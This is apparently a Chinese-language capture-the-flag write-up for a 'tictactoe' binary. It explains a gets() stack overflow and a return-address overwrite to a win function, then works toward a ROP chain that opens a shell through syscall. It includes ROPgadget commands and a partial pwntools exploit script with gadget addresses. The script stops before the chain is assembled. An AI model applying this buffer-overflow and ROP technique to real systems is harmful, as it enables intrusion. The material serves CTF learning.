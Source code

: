 ### 第一问：

看到程序源码，看到 ```gets``` 嗯？（察觉）

input 变量那里还亲切的写上了 ```input is large and it will be ok.```  估计就是要利用这里的溢出了，可以采用 ROP 的思路。

ida 分析，input 变量距离 rbp 为 0x90 字节，rbp+8 是返回地址，先确定把这个地址覆盖为 0x402551 也就是赢的地址。

又看到输了以后才会执行 ret 指令，所以我们可以先下两步棋，在第三次输入的时候再带上 payload

### 第二问：

在第一问的flag中有提示要getshell，我边写边调试，手动构造了一个 ropchain。

自动生成 ropchain：
```
ROPgadget --binary tictactoe --ropchain
```
寻找 gadget (以syscall为例)：
```
ROPgadget --binary tictactoe | grep syscall
```
找到地址再用 ida 到附近看看，确定从用哪个具体的地址。比如这里 ```0x000000000043e6ec : xor edi, edi ; syscall``` 其实 xor 是没用的，我们可以直接取下面 syscall 的地址 0x43E6EE

### 另外的一些总结：

ROP中填写参数的方法：
```ROPgadget --binary tictactoe --only "pop|ret"|grep pop |grep rax```

比如 ```0x000000000046f9d6 : pop rax ; pop rdx ; pop rbx ; ret```

在 payload 中填上 0x46f9d6,59,0,0 就通过 pop 把 rax,rdx,rbx 分别设定为 59,0,0 了。

读入字符串参数：

一般是直接和 payload 发送过去，但是这个貌似返回的时候栈发生了变化，所以我用了 syscall read，写入到全局变量段 bss

### exp 如下：
```
from pwn import *

context.arch = "amd64"

payload_header = bytes("(2,2)", "latin-1") + bytes("A", "latin-1") * (0x90 + 8 - 5)

payload1 = payload_header + p64(0x402551)  # 第一题


bss_addr = 0x00000000004A8320 + 0

ax_dx_bx_addr = 0x000000000046F9D6
rdi_addr = 0x00000000004017B6
rsi_addr = 0x0000000000407228
rdx_addr = 0x000000000043DBB5
syscall_addr = 0x43E6EE
